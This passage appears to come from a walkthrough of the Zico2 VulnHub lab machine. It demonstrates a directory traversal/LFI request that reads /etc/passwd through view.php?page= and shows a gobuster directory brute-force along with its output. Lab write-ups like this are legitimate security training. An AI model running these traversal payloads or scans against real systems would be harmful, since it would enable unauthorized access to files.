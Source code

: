 ![3.png](/assets/images/posts/zico-2-vulnhub-walkthrough/3.png)

The link looks susceptible to LFI. Testing it out for directory traversal `http://192.168.109.143/view.php?page=../../etc/passwd`

```
# curl zico -s http://192.168.109.143/view.php?page=../../etc/passwd
root:x:0:0:root:/root:/bin/bash
...
zico:x:1000:1000:,,,:/home/zico:/bin/bash  
```
Port 80 is open we'll run gobuster to bruteforce the directories. You can run other tools like wfuzz, dirb, dirbuseter or dirsearch;

```
# /opt/gobuster/gobuster -u http://zico -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://zico/
[+] Threads      : 10
[+] Wordlist     : /usr/share/seclists/Discovery/Web_Content/common.txt
[+] Status codes : 200,204,301,302,307,403,500
[+] Expanded     : true
[+] Timeout      : 10s
=====================================================
2020/02/22 13:43:09 Starting gobuster
=====================================================
http://zico/.hta (Status: 403)
http://zico/.htpasswd (Status: 403)
http://zico/.htaccess (Status: 403)
http://zico/LICENSE (Status: 200)
http://zico/cgi-bin/ (Status: 403)
http://zico/css (Status: 301)
http://zico/dbadmin (Status: 301)
http://zico/img (Status: 301)
http://zico/index.html (Status: 200)
http://zico/index (Status: 200)
http://zico/js (Status: 301)
http://zico/package (Status: 200)
http://zico/server-status (Status: 403)
http://zico/tools (Status: 200)
http://zico/vendor (Status: 301)
http://zico/view (Status: 200)
=====================================================
2020/02/22 13:43:11 Finished
=====================================================
```
`http://zico/dbadmin (Status: 301)` looks interesting.

[1]: https://www.vulnhub.com/entry/zico2-1,210/
[2]: https://twitter.com/@rafasantos5
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator
